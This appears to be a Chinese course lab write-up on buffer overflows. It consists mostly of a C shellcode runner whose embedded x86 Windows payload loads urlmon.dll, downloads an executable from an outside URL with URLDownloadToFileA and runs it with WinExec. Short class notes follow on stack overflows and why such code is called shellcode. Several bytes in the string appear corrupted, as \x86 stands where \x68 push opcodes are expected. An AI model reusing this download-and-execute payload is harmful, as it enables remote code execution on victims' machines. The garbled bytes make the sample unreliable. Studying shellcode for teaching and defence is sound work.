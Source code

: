     ```c
    #include<stdio.h>
    #include<string.h>
    #include <windows.h>

    char code[] = 
    "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0";

    int main(int argc, char **argv) 
    {
        int(*func)();
        DWORD dwOldProtect;
        func = (int(*)()) code;
        VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
        (int)(*func)();
    }
    ```

## 课堂知识

* 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
* 跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。这段代码是攻击者编写的，攻击者通过这段代码来实现攻击之后的控制等等功能。
* 早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这样黑客就可以远程通过命令的方式控制目标计算机了。就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
* 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。
    * 现在shellcode功能已经很多了，但总体目的还是对远程的目标计算机进行控制。